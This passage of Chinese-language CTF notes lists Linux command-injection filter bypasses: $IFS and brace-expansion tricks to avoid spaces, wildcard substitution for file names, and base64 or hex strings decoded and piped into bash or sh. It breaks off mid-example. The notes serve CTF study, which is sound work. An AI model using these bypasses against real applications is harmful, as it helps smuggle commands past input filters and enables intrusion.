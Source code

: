 ## JPG

### F5 隐写

使用



# Linux

## 命令绕过

**空格绕过**：

- $IFS 表示空白符
- $9 是当前系统 shell 进程第九个参数持有者，始终为空字符串，$ 后可以接任意数字
- 可以使用 {OS_COMMAND,ARGUMENT} 来执行系统命令
- \x20 是空格

~~~bash
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
{cat,flag.txt}
kg=$'\x20flag.txt' && cat$kg
~~~

**通配符绕过**：

? 在 Linux 里面可以进行代替字母
\* 在 Linux 里面可以进行模糊匹配

~~~bash
cat bb??txt 
cat bb*txt
~~~

**编码绕过**：

- Base64：

  - ~~~bash
    echo Y2F0IHRlbXAudHh0Cg== | base64 -d
    cat temp.txt
    
    echo Y2F0IHRlbXAudHh0Cg== | base64 -d | bash
    echo Y2F0IHRlbXAudHh0Cg== | base64 -d | sh
    ~~~

- Hex：

  - ~~~bash
    echo 6361742074656d702e7478740a | xxd -r -p
    cat temp.txt
    